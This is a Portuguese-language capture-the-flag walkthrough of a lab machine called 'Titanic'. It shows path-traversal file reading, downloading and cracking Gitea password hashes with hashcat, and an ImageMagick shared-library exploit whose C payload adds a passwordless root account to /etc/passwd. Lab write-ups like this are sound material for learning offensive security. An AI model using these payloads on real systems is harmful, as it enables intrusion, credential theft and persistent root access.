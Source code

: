 #Difficult : Easy
#OS : Linux
***
## Enumeração de portas
Por padrão começamos a fazer a enumeração das portas abertas, para ter uma noção dos serviços rodando.

```
nmap 10.10.11.55 -Pn -sC -sV -A -oN nmap_output
```
![[Pasted image 20250327195253.png]]
Foi identificado duas portas.
`80` - HTTP | `22` - SSH

Ao acessa-lo no navegador somo redirecionados para `titanic.htb`, então vamos adiciona-lo em nosso `/etc/hosts`.
```sh
echo "10.0.11.15        titanic.htb" >> /etc/hosts
```

Ao acessar novamente, somos apresentados a um site.
![[Pasted image 20250327195924.png]]
***
## Enumeração de sub domínio
Embora tenhamos um site para explorar, podemos verificar se temos mais algum site disponível.
```sh
ffuf -u http://titanic.htb -H "Host: FUZZ.titanic.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 20
```
![[Pasted image 20250327200125.png]]

Descobrimos um subdomínio `dev.titanic.htb`. Vamos adiciona-lo ao arquivo de hosts.
```sh
10.0.11.15        titanic.htb dev.titanic.htb
```

Vamos acessa-lo para ter uma noção do que temos.
![[Pasted image 20250327200432.png]]
Temos acesso ao ``Gitea``, um serviço de ``git`` sel-hosted. Vamos deixa-lo de lado por enquanto.
****
## LFI (Local File Inclusion)
Em `titanic.htb` podemos criar e baixar um ticket clicando em `Book Your Trip`.
![[Pasted image 20250327200903.png]]

Recebemos um arquivo ``JSON`` com as informações que inserimos.
![[Pasted image 20250327200930.png]]
![[Pasted image 20250327201656.png]]

Vamos interceptar as requisições. A primeira requisição manda nossos dados. 
![[Pasted image 20250327202226.png]]

Após a primeira requisição um requisição é enviada requisitando o arquivo.
![[Pasted image 20250327202424.png]]
O parâmetro `ticket` tem como valor um arquivo, então está sujeito a ``LFI``.

Podemos fazer um teste com o `curl`.
```sh
curl -X GET "http://titanic.htb/download?ticket=../../../../../../../etc/passwd"
```
![[Pasted image 20250327202914.png]]

Vendo a localização do `shell` e da `home` dos usuários, chego a conclusão que os únicos  usuários possíveis regulares são : `root` | `developer`.
***
## Cracking Gitea HASH
Embora tenha um ``LFI``, não achei nenhum arquivo interessante por enquanto. Podemos voltar ao `Gitea` e ver o que temos indo em ``Explore``.
![[Pasted image 20250327203615.png]]

Em `developer/docker-config/gitea/docker-compose.yml` , podemos ver as configurações que usaram para subir o contêiner do ``Gitea``.

```yml
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

Por padrão o banco de dados do `Gitea` fica armazenado em `/etc/gitea.db` junto como os outros arquivos de configuração. Seguindo essa lógica considerei que  `/home/developer/gitea/data/` representasse o `/etc`, então podemos então buscar por `/home/developer/gitea/data/gitea/gitea.db`.

```bash
curl -X GET "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db

file ./gitea.db
```
![[Pasted image 20250331144203.png]]

É um banco de dados em ``SQLite 3``, entre outros dados ele armazena os usuários e suas senhas criptografadas do ``GItea``. Procurando pela internet achei um [script](https://raw.githubusercontent.com/unix-ninja/hashcat/refs/heads/master/tools/gitea2hashcat.py) que converte do formato do ``Gitea`` para um formato em que podemos usar no ``hashcat``.

>[!tip] Post
>Separe um tempo para ler o [POST](https://www.unix-ninja.com/p/cracking_giteas_pbkdf2_password_hashes) sobre o desenvolvimento do Script, e de outro [Writeup](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#crack-gitea-hash) do `0xdf` da máquina `Compiled`

Podemos primeiro enumerar quais usuários temos. Embora tenhamos alguns, sabemos que só existem no sistema o `root` e o `developer`.
```bash
sqlite3 ./gitea.db "select name,salt,passwd,passwd_hash_algo from user;"
```
![[Pasted image 20250331145501.png]]

Devemos então selecionar o `salt` e o `passwd` dos usuários que queremos, e passar como argumento para o ``script``.
```bash
sqlite3 ./gitea.db "SELECT salt,passwd FROM user WHERE name LIKE '%administrator%' OR name LIKE '%developer%';" | ../gitea2hashcat.py > hash.txt

cat hash.txt
```
![[Pasted image 20250331150244.png]]

podemos então quebrar a hash com o `hashcat`. E conseguimos quebrar a senha do usuário `developer`.
```bash
hashcat -m 10900 ./hash.txt ../rockyou.txt

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```
***
## PRIV ESC
Agora que temos a senha do usuário podemos fazer SSH na máquina. E tentar listar o que temos acesso.

Como vejo então que não podemos executar comandos de forma privilegiada. Então procuro por algum arquivo que seja interessante nas pastas `/tmp`, `/opt` e `/var`. Dentro de `/opt/scripts` há um script que pertence ao `root`, mas podemos tanto ler quanto executar o script.
![[Pasted image 20250331151210.png]]

```bash
cat /opt/scripts/identify_images.sh
```
```
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

Após pesquisar um pouco sobre o `script` descubro que o binário `/usr/bin/magick` está em uma versão vulnerável.
```bash
/usr/bin/magick identify --version

Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```
![[Pasted image 20250331152112.png]]

>[!tip] CVE
>Separe um tempo para ler sobre está [CVE](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8).

Pelo o que eu entendi, podemos criar uma `shared library` no diretório em que vamos rodar o `ImageMagick` com nossa ``payload`` e o comando que queremos rodar.

Então rodei esse comando dentro da pasta `/opt/app/static/assets/images`, pois é onde o script roda.
```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("echo 'root4me::0:0:root4me:/root:/bin/bash' >> /etc/passwd");
    exit(0);
}
EOF
```
O comando `"echo 'root4me::0:0:root4me:/root:/bin/bash' >> /etc/passwd"` irá criar um usuário sem senha e com privilégios de `root`.

Após o `script` rodar, podemos verificar o arquivo `/etc/passwd` para ver se o usuário foi criado. e enfim logar com ele.
```bash
cat /etc/passwd
...
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
root4me::0:0:root4me:/root:/bin/bash
```

```bash
su root4me
```
![[Pasted image 20250331153425.png]]
**Owned!!!**
***

![[Pasted image 20250331153727.png]]



























